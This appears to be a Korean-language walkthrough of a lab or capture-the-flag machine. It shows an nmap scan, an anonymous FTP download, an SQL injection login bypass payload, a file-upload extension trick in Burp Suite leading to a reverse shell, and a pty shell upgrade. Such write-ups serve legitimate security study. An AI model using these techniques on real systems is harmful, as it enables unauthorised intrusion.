







## 초기 침투
nmap을 통해 포트 스캔을 수행함.2
```bash
└─$ nmap -p$ports -sC -sV -Pn 192.168.121.103
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-24 07:57 EDT
Nmap scan report for 192.168.121.103
Host is up (0.090s latency).

PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.223
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0            1752 Sep 19  2024 config.xml
22/tcp   open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 76:18:f1:19:6b:29:db:da:3d:f6:7b:ab:f4:b5:63:e0 (ECDSA)
|_  256 cb:d8:d6:ef:82:77:8a:25:32:08:dd:91:96:8d:ab:7d (ED25519)
80/tcp   open  http     Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
9443/tcp open  ssl/http Apache httpd 2.4.58 ((Ubuntu))
|_ssl-date: TLS randomness does not represent time
|_http-title:  Home - Prison Management System
| ssl-cert: Subject: commonName=vmdak.local/organizationName=PrisonManagement/stateOrProvinceName=California/countryName=US
| Subject Alternative Name: DNS:vmdak.local
| Not valid before: 2024-08-20T09:21:33
|_Not valid after:  2025-08-20T09:21:33
|_http-server-header: Apache/2.4.58 (Ubuntu)
| tls-alpn: 
|_  http/1.1
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.29 seconds
```

ftp 익명 로그인 성공.
```
└─$ ftp anonymous@192.168.121.103
Connected to 192.168.121.103.
220 (vsFTPd 3.0.5)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

config.xml만 존재했으며, 다운로드.
```
ftp> ls
229 Entering Extended Passive Mode (|||33672|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0            1752 Sep 19  2024 config.xml
226 Directory send OK.
ftp> get config.xml
local: config.xml remote: config.xml
229 Entering Extended Passive Mode (|||9999|)
150 Opening BINARY mode data connection for config.xml (1752 bytes).
100% |**********************************************************|  1752        2.24 MiB/s    00:00 ETA
226 Transfer complete.
1752 bytes received in 00:00 (19.16 KiB/s)
```
jenkins 2.401.2 버전의 루트 암호 저장 경로 확인.


9334포트 접근하면 /admin/login.php 경로에 로그인 페이지가 존재.


usernam에 '를 입력하면 에러 메시지가 아니라 빈 페이지가 출력되었음.
아래 명령어로 sql injection 시도 시 admin으로 로그인됨.
```
admin' or '1'='1
```


php 가 업로드가 불가하여 png로 확장자를 변경한 뒤 업로드.


burpsuite를 이용해 확장자를 다시 php로 변조.


업로드된 이미지에 우클릭하여 새 탭 열기 클릭.


페이지가 열리면 공격자 pc에서 netcat에 리버스 쉘이 화인됨.



완전한 쉘로 업그레이드
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
